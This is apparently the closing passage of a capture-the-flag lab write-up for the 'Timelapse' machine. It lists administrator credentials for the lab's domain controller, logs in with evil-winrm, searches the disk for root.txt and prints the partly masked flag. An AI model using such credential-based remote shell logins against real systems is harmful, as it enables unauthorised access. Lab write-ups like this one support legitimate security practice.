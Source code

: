 ```yaml
credentials:
    username: timelapse.htb/administrator
    password: "f4]W2[hO4z-H$1;jw]UW+@a7"
    protocol: smb,winrm
    host: DC01.timelapse.htb
    port: 445,5985
```

```
┌──(nabla㉿kali)-[~]
└─$ evil-winrm -i timelapse.htb -u administrator -p 'f4]W2[hO4z-H$1;jw]UW+@a7' --ssl

[SNIP]

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-ChildItem -Path C:\ -Filter root.txt -Recurse -ErrorAction SilentlyContinue

    Directory: C:\Users\TRX\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/30/2025   5:58 PM             34 root.txt
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C://Users//TRX//Desktop//root.txt

40b45*************************** 🚩
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
